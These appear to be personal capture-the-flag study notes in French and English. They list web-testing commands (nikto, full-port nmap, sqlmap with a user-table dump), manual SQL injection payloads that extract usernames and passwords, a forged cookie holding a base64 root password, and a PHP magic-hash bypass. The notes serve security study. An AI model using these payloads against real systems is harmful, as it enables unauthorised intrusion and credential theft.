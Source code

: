 
HTTP - Test connexion utilisation du debugguer pour voir les trames réseau. 
	Passer de GET à OPTION pour voir la réponse.

# Tool
nikto -h <URL>
nmap -p 1-65535 -sV -sS -T4 <IP>
dirb 
Encode / Decode : https://www.root-me.org/spip.php?page=outils&inc=code_decode&lang=en
?? https://www.root-me.org/en/Tools/System/pwntools

# Neonazi à l'intérieur. 
Récupération page de login.php.old, mot de passe base64, décode sur base64decode.org
Modification requête POST : Cookie: galerie=root:YXplcnR5NjU0JiY=
Réponse dans "l'inspector" ...
	
# sqlmap	
sqlmap -u "<URL>"
sqlmap -r <BurpFile>
sqlmap -r <BurpFile> --tables
sqlmap -r <BurpFile> -T users --dump

Test SQL injection manual
http://mywebsite.php/login.php?id=1'
http://mywebsite.php/login.php?id='1
	Si la requête renvoi une erreur alors injectable
http://mywebsite.php/login.php?id=1 ORDER BY 15--
	Error out of range should be between 1 and xx
http://mywebsite.php/login.php?id=1 OR 1=1 UNION SELECT username, password, 3, from users

# gcc
apt-install libc6-dev-i386

#Magic Hash
Hash commencant par 0e. Il suffit de trouver un autre hash qui commence par 0e sur internet et d'utiliser le code correspondant.
